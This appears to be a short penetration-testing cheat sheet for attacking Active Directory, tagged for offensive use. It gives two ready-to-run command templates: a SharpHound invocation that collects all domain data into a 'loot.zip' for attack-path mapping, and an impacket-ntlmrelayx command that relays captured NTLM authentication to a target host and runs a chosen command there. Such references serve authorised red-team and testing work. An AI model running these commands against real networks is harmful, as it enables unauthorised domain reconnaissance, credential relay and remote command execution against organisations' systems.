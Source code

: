 # Active Directory

% bloodhound, Active directory enumeration

## SharpHound - run SharpHound collector
#platform/windows #target/remote #cat/OWN
```
.\SharpHound.exe --collectionmethods All -d <domain> --zipfilename <filename|loot.zip>
```

## impacket - NTLM relay
#platform/windows #target/serve #cat/OWN
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <ip_local> -c <command>
```